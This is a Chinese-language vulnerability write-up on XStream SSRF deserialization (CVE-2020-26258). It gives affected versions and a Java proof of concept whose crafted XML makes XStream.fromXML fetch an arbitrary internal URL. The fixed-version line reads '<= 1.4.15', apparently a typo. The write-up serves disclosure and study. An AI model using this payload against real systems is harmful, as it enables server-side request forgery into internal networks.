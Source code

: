 # XStream SSRF 反序列化漏洞 CVE-2020-26258

# XStream SSRF 反序列化漏洞 CVE-2020-26258

## 漏洞描述

Xstream 是 Java 类库，用来将对象序列化成 XML (JSON) 或反序列化为对象。XStream 是一款开源软件，允许在 BSD 许可证的许可下分发。

参考链接：

- https://raw.githubusercontent.com/jas502n/CVE-2020-26259/main/CVE_2020_26258.java

## 漏洞影响

影响版本：

```
Xstream < = 1.4.14
```

修复版本：

```
Xstream < = 1.4.15
```

## 漏洞复现

poc：

```
import com.thoughtworks.xstream.XStream;

/*
CVE-2020-26258: A Server-Side Forgery Request can be activated unmarshalling
with XStream to access data streams from an arbitrary URL referencing a resource in an intranet or the local host.
All versions until and including version 1.4.14
https://x-stream.github.io/CVE-2020-26258.html
Security framework of XStream not explicitly initialized, using predefined black list on your own risk.
*/

public class CVE_2020_26258 {
    public static void main(String[] args) {
        String ssrf_xml = "<map>\n" +
                "  <entry>\n" +
                "    <jdk.nashorn.internal.objects.NativeString>\n" +
                "      <flags>0</flags>\n" +
                "      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>\n" +
                "        <dataHandler>\n" +
                "          <dataSource class='javax.activation.URLDataSource'>\n" +
                "            <url>http://localhost:8989/internal/:</url>\n" +
                "          </dataSource>\n" +
                "          <transferFlavors/>\n" +
                "        </dataHandler>\n" +
                "        <dataLen>0</dataLen>\n" +
                "      </value>\n" +
                "    </jdk.nashorn.internal.objects.NativeString>\n" +
                "    <string>test</string>\n" +
                "  </entry>\n" +
                "</map>";
        XStream xstream = new XStream();
        xstream.fromXML(ssrf_xml);
    }
}
```


